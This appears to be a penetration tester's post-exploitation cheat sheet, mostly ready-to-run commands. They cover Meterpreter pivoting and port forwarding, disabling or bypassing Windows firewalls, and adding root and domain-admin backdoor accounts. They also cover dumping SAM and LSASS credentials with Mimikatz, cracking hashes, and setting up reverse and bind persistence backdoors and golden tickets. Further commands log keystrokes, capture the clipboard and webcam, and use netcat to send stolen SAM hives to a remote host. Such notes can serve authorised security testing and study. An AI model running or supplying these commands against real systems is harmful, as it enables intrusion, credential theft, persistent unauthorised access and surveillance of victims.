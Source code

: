 ## File Transfer:

## Port Redirection & Tunneling:  

	Pivoting:
		*Use MSF portfwd when possible
		Within Meterpreter:  portfwd add -l <local port on the attacking machine (yours)> -p <victim port we want to access> -r <victim IP address>  ;  portfwd list  -  like SSH local forwarding  (help: portfwd -h)
			Forward:
				ex. portfwd add -L 127.0.0.1 -l 55555 -r 192.168.0.11 -p 55555
				ex. portfwd add -L 127.0.0.1 -l 2222 -r 192.168.200.69 -p 22 ; ssh user@localhost -p 2222
			Reverse (for intermediate reverse shell callback):  portfwd add -R -L 192.168.106.52 -l 9998 -p 9999  (reverse forward T2 9999 to T1 9998) (ran on T2)
				**portfwd add -R -L 127.0.0.1 -l RHP1 -r 192.168.106.52 -p RHP2  (run on meterp session of .106.52 box)
					**-r can be the listening box interface, or the box that will connect to it
				ex. portfwd add -R -L 127.0.0.1 -l 8888 [-r 192.168...] -p 9999    (forwards [192.168... interface on victim] 9999 to my 8888)
		run autoroute -s 10.1.13.0/24   -  then attack directly in MSF  (help: run autoroute -h)
		*Add Route (within MSF):  background; route add 192.168.0.0 255.255.255.0 <session_id>
		PSExec/PTH (port 445):  use exploit/windows/smb/psexec  \\  use admin/smb/psexec_command (stealthier)
			*Note: psexec uses powershell, so logging may be active; ****MAKE SURE TO USE PAYLOAD WITH PSEXEC--otherwise will try to connect directly to attack box
			Enable Firewall to Connect Back through:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name="RDP" dir=in action=allow protocol=TCP localport=3389'          
	Allow into Firewall:
	    Unix:
		sudo iptables -A INPUT -p tcp --dport 22 -s 192.168.11.13 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
	    Windows:
		New Rule:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name="RDP" dir=in action=allow protocol=TCP localport=3389'
			Delete:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall delete rule name=RDP'
		Modify Existing Rule:  run multicommand -cl 'cmd.exe /c netsh advfirewall firewall set rule name=callforhelp new remoteip=any'
	Routing w/ Fpipe:
		upload /tmp/fpipe.exe c:/windows/temp/fp.exe
		run multicommand -cl 'cmd.exe /c netsh advfirewall firewall show rule profile=any name=all'
		execute -f c:/windows/temp/fp.exe -a '-l 3389 -r 22 192.168.200.69'
		run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name=3389 dir=in action=allow protocol=TCP localport=3389'
		-L 33389:172.17.20.10:3389
		ssh user@localhost -p 33389
	Routing w/ Portproxy:
		run multicommand -cl 'cmd.exe /c netsh interface portproxy set v4tov4 listenport=3389 connectaddress=192.168.200.69 connectport=22'
		run multicommand -cl 'cmd.exe /c netsh advfirewall firewall add rule name=3389 dir=in action=allow protocol=TCP localport=3389'
		ssh user@localhost -p 33389
		Or:  run post/windows/manage/portproxy ...
	*Remember to delete rule afterwards
	Routing w/ Iptables:
		-L8080:192.0.2.79:8080
		iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 8080 -j DNAT --to-destination 192.168.255.12:80
		If conntrack module is loaded, no need for a reversing rule
		echo 1 > /proc/sys/net/ipv4/ip_forward
		iptables -I RH-Firewall-1-INPUT 10 -p tcp --dport 80 -j ACCEPT
		iptables -t nat -A POSTROUTING -p tcp --dport 80 -d 192.168.255.12 -j SNAT --to-source 172.17.10.79
		nc -n 127.0.0.1 8080

## Active Directory:

## Persistence/Credentials:

    Unix:
        Add User:  echo root2:w08rKyoC9ECsg:0:0:/root:/bin/bash >> /etc/passwd     #password
        cat /etc/passwd /etc/shadow

    Windows:
        -Dumping SAM file (older systems)
        pwdump or fgdump: On Meterpreter:  upload /usr/share/windows-binaries/fgdump/fgdump.exe c:\\

        Mimikatz: pull credentials from memory
          in meterpreter:  execute -H -i -c -f /root/Desktop/Mimikatz/x64/mimikatz.exe -m


        Credentials:
            SAM Files:
                Dump (if admin):  reg save hklm\sam c:\sam, reg save hklm\system c:\system,  and transfer back:  nc64.exe 10.10.14.18 4445 < SAMS   ,  nc -nvlp 4445 > SAMS
                Decrypt (Unix):  python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -system SYSTEM [ip]
                Decrypt (Windows):  mimikatz.exe; privilege::debug; token::elevate; lsadump::sam filename1.hiv filename2.hiv
                Crack:  hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst
            MSF:  run post/windows/gather/hashdump
            Mimikatz:
                Local:  mimikatz.exe; privilege::debug; sekurlsa::logonpasswords full  \\  mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
                    In Meterpreter:  load mimikatz; msv  \\  creds_all  \\  kerberos  \\  mimikatz_command -f samdump::hashes  \\  mimikatz_command -f sekurlsa::searchPasswords
                From LSASS dump:
                    from task manager  \\  procdump -ma lsass.exe lsass.dmp  \\  Import-Module .\OutMiniDump.ps1; Get-Process lsass | Out-Minidump (https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1)
                    mimikatz “sekurlsa::minidump C:\Users\username\AppData\Local\Temp\lsass.DMP”; sekurlsa::logonPasswords

        Add User:
            net user <username> <password> /add
            net localgroup Administrators <username> /add

        RDP:
            Enable RDP Access:
                reg add “hklm\system\currentcontrolset\control\terminal server” /f /v fDenyTSConnections /t REG_DWORD /d 0
                netsh firewall set service remoteadmin enable
                netsh firewall set service remotedesktop enable
            Add RDP User (Windows):  net user <user> <pass> /add; net localgroup "Administrators" <USER> /add; net localgroup "Remote Desktop Users" <USER> /add


        Turn Off Firewall:
            Newer:  netsh advfirewall set allprofiles state off
            Older:  netsh firewall set opmode disable
        
        
        Windows:
	Modules: https://www.infosecmatter.com/post-exploitation-metasploit-modules-reference/
	PrivEsc:
	    getsystem
	    use priv
	    use post/multi/recon/local_exploit_suggester  ;  use exploit/windows/local/...
	Creds:
	    hashdump  \\  Better:  run hashdump \ run post/windows/gather/smart_hashdump ->**copy file to /tmp
		john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
		use auxiliary/analyze/jtr_crack_fast
	    GPO creds:  use post/windows/gather/credentials/gpp, set ... DOMAINS=BOOT SESSION=#
	    run credcollect
	    steal_token <PID> / drop_token
		Mimikatz:
			Option 1: load kiwi; creds_all  \\  creds_msv  \\  creds_kerberos   (require System)
			Option 2: load kiwi; kiwi_cmd "privilege::debug"; kiwi_cmd "sekurlsa::logonPasswords full"; kiwi_cmd "sekurlsa::credman"; kiwi_cmd "SEKURLSA::Kerberos"; kiwi_cmd "SEKURLSA::Krbtgt"; kiwi_cmd "SEKURLSA::SSP"; kiwi_cmd "SEKURLSA::Wdigest"
	Persistence:
	    Add User:  Local: run multicommand -cl "cmd.exe /c net user metasploit p@55w0rd /ADD","cmd.exe /c net localgroup 'Administrators' metasploit /ADD" ; Domain: run multicommand -cl "cmd.exe /c net user metasploit p@55w0rd /ADD /DOMAIN","cmd.exe /c net group "Domain Admins" metasploit /ADD /DOMAIN"
		Make Domain Admin:  run multicommand -cl 'cmd.exe /c net group "Domain admins" mossa /add /domain'; run multicommand -cl 'cmd.exe /c net group "Domain admins" /domain'
	    RDP:
		run post/windows/manage/enable_rdp username=admin,password=password
		    Or: run getgui -e  //  or  run getgui -u loneferret -p password  ;  then cleanup:  ex. run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
	    Telnet:  run gettelnet [-e  //  -u user -p pass]
	    Meterpreter Bind Backdoor:  run metsvc; use exploit/multi/handler; set PAYLOAD windows/metsvc_bind_tcp; set LPORT 31337; set RHOST 192.168.1.104; run
		Reverse Backdoor (reboot persistent):  run persistence -U -i 5 -p 443 -r 192.168.1.71; use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.1.71; set LPORT 443; exploit
	    Golden Ticket:  load kiwi;  golden_ticket_create -u mossa -d BOOT.LAB -k (krbtgt hash last half only) -s (Domain User SID w/o last 4 digits--from enum_users) -t /tmp/ticket
		kerberos_ticket_list; kerberos_ticket_use /tmp/ticket
	Hardware:
	    Clipboard:  load extapi; clipboard_get_data; clipboard_monitor_start; clipboard_monitor_dump
	    Keylogger:  keyscan_start; keyscan_stop; keyscan_dump  (after migrating to explorer)
	    webcam_list \ webcam_snap
	    screengrab
	    run vnc  -  opens quick viewing session
